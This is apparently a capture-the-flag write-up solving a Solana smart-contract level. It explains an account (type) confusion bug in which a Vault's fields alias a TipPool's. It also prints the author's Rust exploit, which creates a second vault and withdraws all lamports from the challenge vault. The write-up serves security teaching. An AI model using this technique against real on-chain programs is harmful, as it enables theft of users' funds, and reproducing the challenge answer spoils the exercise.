 # Solution - Account confusion

The vulnerability in this contract is called account-confusion. Outside of the solana contract this type of vulnerability is called *type confusion*. It happens whenever data is misinterpreted. Programs often have to rely on a certain data structure, often a user can not control the data directly for a certain type, but for another one. If a program has a type confusion bug, it expects, that the data cannot be user controlled, but it fails to check the type, therefore a malicious attacker trick the program to use the controlled data instead. For example in this instance an attacker can initialize a second vault and use the withdraw instruction with the vault account as a pool account.

In this case, we confuse a `TipPool` with a `Vault`. The fields will overlap nicely:

```rust
pub struct TipPool {
    pub withdraw_authority: Pubkey, // at the same position as Vault::creator
    pub value: u64,                 // at the same position as Vault::fee
    pub vault: Pubkey,              // at the same position as Vault::fee_recipient
}

pub struct Vault {
    pub creator: Pubkey,
    pub fee: f64,              
    pub fee_recipient: Pubkey,
    pub seed: u8,
}
```

Another thing that may be tricky to wrap your head around is that the program can be initialized twice, PDAs can be derived by a different seed result in different addresses, while in this case this is totally intended, there can be some cases, where not knowing this can lead to serious vulnerabilities.

example solution by Felipe (author):

```rust
fn hack(env: &mut LocalEnvironment, challenge: &Challenge) {
    let seed: u8 = 1;
    let hacker_vault_address =
        Pubkey::create_program_address(&[&[seed]], &challenge.tip_program).unwrap();

    env.execute_as_transaction(
        &[level3::initialize(
            challenge.tip_program,
            hacker_vault_address,      // new vault's address
            challenge.hacker.pubkey(), // initializer_address. Aliases with TipPool::withdraw_authority
            seed,                      // seed != original seed, so we can create an account
            2.0,                       // some fee. Aliases with TipPool::amount (note u64 != f64. Any value >1.0 is a huge u64)
            challenge.vault_address,   // fee_recipient. Aliases with TipPool::vault
        )],
        &[&challenge.hacker],
    )
    .print();

    let amount = env.get_account(challenge.vault_address).unwrap().lamports;

    env.execute_as_transaction(
        &[level3::withdraw(
            challenge.tip_program,
            challenge.vault_address,
            hacker_vault_address,
            challenge.hacker.pubkey(),
            amount,
        )],
        &[&challenge.hacker],
    )
    .print();
}
```